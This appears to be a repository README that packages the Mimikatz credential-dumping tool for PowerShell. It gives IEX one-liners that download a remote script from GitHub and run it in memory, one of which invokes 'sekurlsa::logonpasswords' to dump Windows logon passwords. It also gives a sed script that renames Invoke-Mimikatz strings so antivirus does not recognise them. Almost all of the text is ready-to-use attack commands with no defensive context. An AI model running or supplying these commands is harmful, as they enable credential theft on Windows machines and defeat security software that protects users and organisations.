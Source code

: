# Download Mimikatz web with Powershell

mimikatz 2.1.1 (x64) built on Aug  3 2018

OK for Win 10 (v1803)

Powershell as Administrator

    Import-Module .\Invoke-Mimidogz.ps1
    Invoke-Mimikatz -Command "privilege::debug"

or via web:

    IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mttstt/mimi/master/Invoke-Mimidogz.ps1');Invoke-Mimidogz -Command "privilege::debug" 

https://github.com/gentilkiwi/mimikatz/issues/83

Autentication proxy for powershell
(New-Object System.Net.WebClient).Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials


IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/mttstt/mimi/master/Kingdom3.ps1");Invoke-Mimidogz -Com
mand "privilege::debug";Invoke-Mimidogz -command "sekurlsa::logonpasswords"

# Script to obfuscate mimikatz and bypass AV
    
    wget https://raw.githubusercontent.com/EmpireProject/Empire/7a39a55f127b1aeb951b3d9d80c6dc64500cacb5/data/module_source/credentials/Invoke-Mimikatz.ps1
    sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
    sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
    sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
    sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
    sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1
    sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1
    sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
